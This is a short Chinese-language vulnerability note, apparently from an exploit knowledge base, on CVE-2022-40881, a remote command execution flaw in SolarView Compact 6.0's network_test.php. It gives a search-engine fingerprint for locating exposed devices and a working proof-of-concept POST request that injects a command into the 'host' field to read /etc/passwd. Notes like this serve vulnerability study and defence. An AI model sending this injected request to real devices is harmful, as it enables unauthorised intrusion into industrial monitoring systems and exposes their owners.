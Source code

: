 # SolarView network_test.php 远程命令执行漏洞 CVE-2022-40881

## 漏洞描述

SolarView network_test.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

<a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72-0128095.png)

验证POC

```php
POST /network_test.php
  
host=%0acat${IFS}/etc/passwd%0a&command=ping
```

![img](../../../.vuepress/public/img/1670128065393-34dcd02a-13db-4542-8069-421575487d03.png)